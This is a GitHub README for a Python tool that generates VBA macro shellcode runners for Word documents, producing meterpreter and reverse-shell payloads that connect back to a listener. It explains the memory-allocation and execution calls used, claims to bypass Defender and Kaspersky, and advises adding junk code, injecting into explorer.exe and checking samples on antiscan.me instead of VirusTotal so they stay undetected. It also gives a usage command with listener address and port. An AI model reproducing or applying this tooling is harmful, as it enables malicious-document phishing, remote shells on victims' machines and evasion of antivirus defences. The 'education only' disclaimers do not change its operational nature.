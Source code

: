 # vba_bin_runner
Basic python tools to generate shellcode runner in vba.

The stub use ZwAllocateVirtualMemory to allocate memory, RtlMoveMemory to write memory and EnumDateFormatsW to execute shellcode.

You can generate meterpreter/reverse_http (compatible cobalt strike), reverse_tcp and reverse_shell. 

In antiscan.me i have 0/26 detections in scantime. In runtime i bypass Defender and Kaspersky but if you use c2 some function can be detected by AV.

If the stub is detected you can edit/add junk code and change the function to allocate/write/execute. 

You can Easier  edit this with : https://github.com/karttoon/trigen/blob/master/function_VBA_notes.txt

The macro self inject shellcode in word process, after macro is enabled the Word Application crash, if you want to patch this you can edit stub to inject shellcode in other process (explorer.exe for exemple).

If you use meterpreter you can add automigrate in your listener to keep connection after Word Application crash.

To keep stub long time no-detect use antiscan.me to check and no virus total. 

NB : Please don't use this for illegal activity

# How to use
Python main.py -p 1 -L 192.168.1.17 -P 80 -o /home/kali/Desktop/test.vba

 -p : Is for the choice of payload
 
      1 -> windows/meterpreter/reverse_http
      
      2 -> windows/meterpreter/reverse_tcp
      
      3 -> windows/shell_reverse_tcp
      
      
 -L : Is for the ip of listener
 
 -P : Is for the port of listener
 
 -o : Is for the destination output of payload
 
 
 The tools use msfvenom to generate payload.

# For education only
